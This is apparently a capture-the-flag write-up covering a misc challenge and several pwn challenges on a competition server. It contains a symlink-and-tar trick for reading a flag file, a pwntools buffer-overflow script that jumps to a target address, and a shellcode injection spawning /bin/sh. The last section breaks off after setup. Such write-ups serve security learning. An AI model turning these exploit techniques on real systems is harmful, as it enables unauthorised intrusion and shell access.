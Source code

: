 ### 👿Shichirou

ref: [Inndy's writeup for AIS3 pre-exam 2016 - misc3](https://github.com/Inndy/ctf-writeup/blob/8dd6e7c886eb104b530dc88cdfcb0b54e5333e62/2016-ais3-pre-exam/misc3.md)
`$: echo "\n\r\n\r"|nc 60.250.197.227 11000`
Find the script is at `/home/ctf/Shichirou.py` from error message

Let guess.txt be the symbolic link to flag.txt
```
ln -s /home/ctf/flag.txt guess.txt
tar -cf payload guess.txt
SIZE=$(wc -c < payload)
(echo $SIZE; cat misc3.payload) | nc 60.250.197.227
```

get the flag


## pwn

### 👻 BOF
```lus=py
from pwn import *
context.arch="amd64"
#r = process('./bof')
#r = remote('localhost', 4444)
r = remote('60.250.197.227', 10000)
input()
evil =  0x400688
payload = b'a'*56+p64(evil)
r.sendline(payload)
r.interactive()
```
### 📃 Nonsense
```lus=py
from pwn import *

context.arch="amd64"
#r = remote('localhost', 4004)
r = remote('60.250.197.227', 10001)
r.sendline('/bin/sh\x00')
payload = b'w '
payload += b"wubbalubbadubdub"
payload = payload.ljust(0x22, b'a')
payload += asm("""
        mov rdi, 0x601100
        mov rsi, 0
        mov rdx, 0
        mov rax, 0x3b
        syscall
        """)
print(payload, len(payload))
r.sendline(payload)
r.interactive()
```
### 🔫 Portal gun
```lus=py
from pwn import *

#r = remote('localhost', 4004)
r = remote('60.250.197.227', 10002)

context.arch = "amd64"

```